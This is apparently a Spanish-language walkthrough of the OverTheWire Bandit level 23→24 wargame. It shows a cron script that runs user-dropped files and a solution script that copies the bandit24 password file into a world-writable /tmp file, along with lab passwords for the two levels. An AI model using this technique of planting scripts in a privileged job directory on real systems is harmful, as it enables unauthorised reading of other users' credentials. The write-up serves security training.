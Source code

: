 # Bandit Level 23 → Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
```
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
## Solución
 ```bash
 bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit23       e2scrub_all
cronjob_bandit17_root  cronjob_bandit24       otw-tmp-dir
cronjob_bandit22       cronjob_bandit25_root  sysstat
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
bandit23@bandit:/tmp$ mkdir /tmp/kd
bandit23@bandit:/tmp$ cd kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls -la
total 10568
drwxrwxr-x   2 bandit23 bandit23     4096 Sep 18 16:25 .
drwxrwx-wt 171 root     root     10801152 Sep 18 16:58 ..
-rw-rw-rw-   1 bandit23 bandit23        0 Sep 18 16:58 password
-rwxrwxr-x   1 bandit23 bandit23       49 Sep 18 16:57 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 10568
drwxrwxr-x   2 bandit23 bandit23     4096 Sep 18 16:25 .
drwxrwx-wt 172 root     root     10801152 Sep 18 16:58 ..
-rw-rw-rw-   1 bandit23 bandit23        0 Sep 18 16:58 password
-rwxrwxr-x   1 bandit23 bandit23       49 Sep 18 16:57 script.sh
bandit23@bandit:/tmp/kd$ date
Mon Sep 18 04:58:35 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 10568
drwxrwxr-x   2 bandit23 bandit23     4096 Sep 18 16:25 .
drwxrwx-wt 172 root     root     10801152 Sep 18 16:58 ..
-rw-rw-rw-   1 bandit23 bandit23       33 Sep 18 16:58 password
-rwxrwxr-x   1 bandit23 bandit23       49 Sep 18 16:57 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
``` 
## Notas adicionales
En este caso también tenemos un script, vamos a emularlo desde bandit23.
## Referencias
